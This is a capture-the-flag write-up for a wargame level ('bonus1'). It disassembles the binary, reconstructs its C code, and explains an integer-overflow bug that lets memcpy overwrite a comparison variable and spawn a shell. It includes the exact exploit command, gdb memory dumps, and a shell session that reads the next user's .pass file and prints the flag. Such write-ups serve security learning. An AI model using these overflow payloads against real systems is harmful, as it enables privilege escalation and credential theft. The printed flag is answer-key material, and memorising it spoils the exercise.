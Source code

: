
### notes
```c
0x08048424  main
```

### 0x08048529 : main() : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c

{
    int argc = ebp+0x8
    char **argv = ebp+12

    number = esp+60
    buffer1[40] = esp+20
    0x40 ... 64
    0x3c ... 60
    0x14 ... 20
}
```
* __`<+0> ➜ <+6> : prepare stack frame for n function with size 64`__
```c
0x08048424 <+0>:	push   ebp
0x08048425 <+1>:	mov    ebp,esp
0x08048427 <+3>:	and    esp,0xfffffff0
0x0804842a <+6>:	sub    esp,64
```
* __`<+9> ➜ <+41> : parse the number from first param and return of number > 9, else : keep going`__
```c
0x0804842d <+9>:	mov    eax,DWORD PTR [argv]
0x08048430 <+12>:	add    eax,4
0x08048433 <+15>:	mov    eax,DWORD PTR [eax] // eax = *argv[1]
0x08048435 <+17>:	mov    DWORD PTR [esp],eax
0x08048438 <+20>:	call   0x8048360 <atoi@plt>
atoi(argv[1])
0x0804843d <+25>:	mov    DWORD PTR [number],eax
0x08048441 <+29>:	cmp    DWORD PTR [number],9
0x08048446 <+34>:	jle    0x804844f <main+43>
0x08048448 <+36>:	mov    eax,1
0x0804844d <+41>:	jmp    0x80484a3 <main+127>
if (number <= 9) {
    jump to <main+43>
} 
else {
    return (1);
}
```
* __`<+43> ➜ <+79> : copy n*4 bytes (n be the number) from second param to our buffer1 with memcpy`__
```c

0x0804844f <+43>:	mov    eax,DWORD PTR [number]
0x08048453 <+47>:	lea    ecx,[eax*4+0]
ecx = number * 4
0x0804845a <+54>:	mov    eax,DWORD PTR [argv]
0x0804845d <+57>:	add    eax,8
0x08048460 <+60>:	mov    eax,DWORD PTR [eax]
eax = *argv[2]
0x08048462 <+62>:	mov    edx,eax
edx = number
0x08048464 <+64>:	lea    eax,[buffer1]
0x08048468 <+68>:	mov    DWORD PTR [esp+8],ecx
0x0804846c <+72>:	mov    DWORD PTR [esp+4],edx
0x08048470 <+76>:	mov    DWORD PTR [esp],eax
0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
memcpy(*buffer1, argv[2], number * 4);
```
* __`<+84> ➜ <+117> : compare content of number to 0x574f4c46, and execute shell if comparison successfull else exit with code 0`__
```c
0x08048478 <+84>:	cmp    DWORD PTR [number],0x574f4c46
0x08048480 <+92>:	jne    0x804849e <main+122>
0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0
0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580 // "sh"
0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583 // "/bin/sh"
0x08048499 <+117>:	call   0x8048350 <execl@plt>
if (number == 0x574f4c46) {
    execl("/bin/sh", "sh", 0);
}
else {
    return (0);
}

```
* __`<+122> ➜ <+128> : eax = 0 and leave program `__
```c
0x0804849e <+122>:	mov    eax,0x0
0x080484a3 <+127>:	leave  
0x080484a4 <+128>:	ret   
```
----
### Code Prediction 
```c
int main(int argc(ebp+0x8), char **argv(ebp+12)) {
    int number;
    char *buffer1[40];

    number = atoi(argv[1]);

    if (number <= 9) {
        memcpy(*buffer1, argv[2], number * 4);

        if (number == 0x574f4c46) {
            execl("/bin/sh", "sh", 0);
        }

        return (0);
    } 
    return (1);
}

```
----
### Stack Illustration
```c
+-------------------+ 
+      **argv       +
+-------------------+ +12
+        argc       +
+-------------------+ +8
+ret addr (OLD_EIP) +
+-------------------+ +4
+      OLD_EBP      +
+-------------------+ <---EBP   <----------------+
+and esp,0xfffffff0 + <--- stack alignement      |
+-------------------+ +60                        |
         *                                       |
         *                                       |
         *                                       |
+-------------------+ +44                        |
+      number       +                            |
+-------------------+ +40  <--+                  |
+      buffer1      +         + 40 bytes         |
+-------------------+ +20  <--+                  | main frame (60 bytes)
         *                                       |
         *                                       |
         *                                       |
+-------------------+ +12                        |
+                   +                            |
+-------------------+ +8                         |
+                   +                            |
+-------------------+ +4                         |
+                   +                            |
+-------------------+ <---ESP   <----------------+
```
---
### Process of the Exploit

- If atoi(argv[0]) > 9 the program doesn't run
    >0x08048441 <+29>:	cmp    DWORD PTR [number],9

- else it will call a memcpy that we can try to overflow
    >0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
- to change the number value we have to fill the buffer first with 40 bytes then add more 4 bytes to overwrite number that is in top of it in the stack (check [Stack Illustration](#stack-illustration))

    >TOP_STACK -----> BUFFER -----> NUMBER -------> LOWER_STACK

```txt
Value of INT_MAX is +2147483647.
Value of INT_MIN is -2147483648.
-2147483648 * 4 = 0
(-2147483648 + 11) * 4 = 44
-2147483637  * 4 = 44
```
use this little c program to test 
```c

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main()
{   
    int nb = atoi("-2147483637");
    printf("nb      = [%d]\n", nb);
    printf("nb * 4  = [%d]", nb * 4);
    return 0;
}
// nb      = [-2147483637]
// nb * 4  = [44]
```
- now we got the negative number that will give us 44 as a result when multiply by 4
- lets prepare our payload :
PAYLOAD = arg1(-2147483637) + arg2(A * 40 + 0x574f4c46)
> ./bonus1 -2147483637 $(python -c 'print("A"*40 + "\x57\x4f\x4c\x46"[::-1])')
```shell
   (gdb) disass
    Dump of assembler code for function main:
    ...
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
=> 0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    eax,0x0
   0x080484a3 <+127>:	leave  
   0x080484a4 <+128>:	ret    
End of assembler dump.
(gdb) x $esp+0x3c
0xbffff6ec:	70
(gdb) x * 0xbffff6ec
0x574f4c46:	Cannot access memory at address 0x574f4c46
(gdb) x/20wx $esp 
0xbffff6b0:	0xbffff6c4	0xbffff8da	0x0000002c	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
0xbffff6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6e0:	0x41414141	0x41414141	0x41414141	0x574f4c46
0xbffff6f0:	0x080484b0	0x00000000	0x00000000	0xb7e454d3
(gdb) 


```
---
### Solution :
```shell
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print("A"*40 + "\x57\x4f\x4c\x46"[::-1])')
$ pwd
/home/user/bonus1
$ whoami
bonus2
$ cd /home/user/bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ 
```

**`flag: 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`**